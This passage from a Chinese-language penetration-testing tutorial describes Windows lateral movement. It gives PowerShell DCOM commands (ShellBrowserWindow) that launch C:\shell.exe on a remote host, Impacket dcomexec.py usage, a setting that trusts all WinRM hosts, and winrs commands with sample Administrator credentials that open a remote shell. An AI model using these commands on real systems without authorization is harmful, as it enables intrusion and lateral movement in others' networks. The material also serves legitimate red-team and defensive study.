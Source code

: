 ### [ShellBrowserWindow](https://tttang.com/archive/1890/#toc_shellbrowserwindow)

使用条件：适用于**Windows 10和Windows Server 2012 R2**等版本的系统。

`# 通过PowerShell与DCOM进行远程交互，创建Excel.Application对象的实例:  $com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131"))   # 然后执行如下命令，我们就可以调用该对象的"shellExecute"方法在远程主机上启动进程: $com.Document.Application.shellExecute("C:\shell.exe")   # 完整的命令:  [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.1.131")).Document.Application.shellExecute("C:\shell.exe")`

### [Impacket里的dcomexec.py脚本](https://tttang.com/archive/1890/#toc_impacketdcomexecpy)

Impacket 里面提供的 dcomexec.py 脚本可以提供一个类似于 wmiexec.py 脚本的半交互式shell，但使用的是DCOM，目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。

命令格式如下：

`./dcomexec.py domain/username:password@ip  ./dcomexec.py domain/username:password@ip <command>`

# [WinRM的利用](https://tttang.com/archive/1890/#toc_winrm)

WinRM是通过执行WS-Management协议（用于远程软件和硬件管理的Web服务协议）来实现远程管理的，允许处于一个共同网络内的Windows计算机彼此之间互相访问和交换信息，对应的端口是5985。在一台计算机启用WinRM服务后，防火墙会自动放行其相关通信端口，在另一台计算机便能通过WinRM对其进行远程管理了。

**只有在Windows Server 2008以上版本的服务器中，WinRm服务才会自动启动。**

**在利用WinRM进行横向移动时，需要拥有远程主机的****管理员凭据信息****。**

## [通过WinRM执行远程命令](https://tttang.com/archive/1890/#toc_winrm_1)

Windows远程管理提供了两个工具：  
① Winrs，允许远程执行命令的命令行工具，利用了WS-Manage协议  
② Winrm（Winrm.cmd)，内置系统管理命令行工具，允许管理员配置本机的WinRM服务。

在默认情况下，无法通过WinRM连接到目标系统。可能出现错误：Winrs error：WinRM客户端无法处理该请求。可以将默认身份验证与IP地址结合使用：  
① 传输为HTTPS或目标位于TrustedHosts列表中，并且提供显式凭据  
② 使用Winrm.cmd配置TrustedHosts。

执行以下命令，将目标地址添加到TrustedHosts中：

`winrm set winrm/config/client @{TrustedHosts="192.168.1.1"}   set-Item WSMan:localhost\client\trustedhosts -value *     # 通过powershell，信任所有主机`

## [Winrs](https://tttang.com/archive/1890/#toc_winrs)

winrs是Windows上远程管理提供的客户端程序，允许通过提供的用户凭据，在运行WinRM的服务器上执行命令。要求通信双方都安装了WinRM服务。

`# 执行系统命令  winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "whoami"  # 获取远程交互式命令行  winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "cmd"`

## [**Winrm.cmd**](https://tttang.com/archive/1890/#toc_winrmcmd)
